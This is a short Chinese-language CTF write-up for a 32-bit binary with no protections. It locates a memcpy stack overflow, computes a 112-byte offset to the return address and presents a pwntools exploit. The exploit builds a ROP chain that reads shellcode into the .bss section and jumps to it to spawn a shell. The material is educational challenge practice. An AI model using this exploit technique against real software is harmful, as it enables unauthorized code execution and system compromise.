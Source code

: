 # 分析 #

先看文件信息，再查保护

![image.png](https://i.loli.net/2020/08/01/T7lxE1MmPiakFDU.png)

32位，动态链接,啥保护也没有，简单到无语了

放ida,F5查伪C

![image.png](https://i.loli.net/2020/08/01/vZ3A4Mu8Egzt1ae.png)

![image.png](https://i.loli.net/2020/08/01/a478jUNOfndwFvh.png)

dest的数据类型是char，占1个字节，memcpy却复制了0xC8u（十进制:200）个字节到dest，存在明显的栈溢出

# 利用 #

## 思路 ##

该程序用到了read函数，那么我们可以从rop直接调用read，从标准输入写入我们的payload，然后call我们的payload拿shell

从ida中可以看出变量dest到ebp的偏移量为6Ch，ebp的长度为4h，所以deal_user_info函数的ReturnAddress为6Ch+4h=70h,即112

也可以用gdb-pattern计算

![image.png](https://i.loli.net/2020/08/01/Decg9tnWHOkCv41.png)

除了偏移量，我们还需要一个地址来保存我们的read
Shift+F7查.bss段的地址(0804A040)

![image.png](https://i.loli.net/2020/08/01/9AVlJEhbw85CuKB.png)

## Exp ##

    from pwn import *
	
	proc = './a'
	io = process(proc)
	
	bss_addr = 0x0804A040 
	
	context.binary = proc
	shellcode = asm(shellcraft.sh())
	
	rop = ROP(proc)
	rop.read(0,bss_addr + 0x100,len(shellcode))
	rop.call(bss_addr + 0x100)
	
	io.recvuntil('\n')
	io.sendline('a' * 112 + str(rop))
	io.sendline(shellcode)

	io.interactive()
	
## 交互 ##

![image.png](https://i.loli.net/2020/08/01/3GRuA2Kfhyzmc1I.png)